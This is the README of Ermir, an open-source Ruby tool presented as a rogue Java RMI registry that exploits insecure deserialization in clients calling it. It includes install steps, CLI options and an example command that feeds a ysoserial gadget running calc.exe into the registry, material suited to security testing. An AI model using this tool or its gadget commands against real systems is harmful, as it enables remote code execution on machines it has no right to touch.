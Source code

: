 # Ermir

Ermir is an Evil/Rogue RMI Registry, it exploits unsecure deserialization on any Java code calling standard RMI methods on it (`list()`/`lookup()`/`bind()`/`rebind()`/`unbind()`).

# Requirements

- Ruby v3.0.3 or newer.

## Installation

Install Ermir from rubygems.org:

    $ gem install ermir

or clone the repo and build the gem:

    $ git clone https://github.com/hakivvi/ermir.git
    $ rake install

## Usage

Ermir is a cli gem, it comes with 2 cli files `ermir` and `gadgetmarshal`, `ermir` is the actual gem and the latter is just a pretty interface to [GadgetMarshaller.java](https://github.com/hakivvi/ermir/blob/main/helpers/gadgetmarshaller/GadgetMarshaller.java) file which rewrites the gadgets of [Ysoserial](https://github.com/frohoff/ysoserial) to match `MarshalInputStream` requirements, the output should be then piped into `ermir` or a file, in case of custom gadgets use `MarshalOutputStream` instead of `ObjectOutputStream` to write your serialized object to the output stream.

`ermir` usage:
```text
Ermir by @hakivvi * https://github.com/hakivvi/ermir.
Info:
    Ermir is a Rogue/Evil RMI Registry which exploits unsecure Java deserialization on any Java code calling standard RMI methods on it.
Usage: ermir [options]
    -l, --listen   bind the RMI Registry to this ip and port (default: 0.0.0.0:1099).
    -f, --file     path to file containing the gadget to be deserialized.
    -p, --pipe     read the serialized gadget from the standard input stream.
    -v, --version  print Ermir version.
    -h, --help     print options help.
Example:
    $ gadgetmarshal /path/to/ysoserial.jar Groovy1 calc.exe | ermir --listen 127.0.0.1:1099 --pipe
```
`gadgetmarshal` usage:
```text
Usage: gadgetmarshal /path/to/ysoserial.jar Gadget1 cmd (optional)/path/to/output/file
```

## PoC

## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/hakivvi/ermir. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [code of conduct](https://github.com/hakivvi/ermir/blob/main/CODE_OF_CONDUCT.md).

## License

The gem is available as open source under the terms of the [MIT License](https://opensource.org/licenses/MIT).

## Code of Conduct

Everyone interacting in the Ermir project's codebases, issue trackers, chat rooms and mailing lists is expected to follow the [code of conduct](https://github.com/hakivvi/ermir/blob/main/CODE_OF_CONDUCT.md).
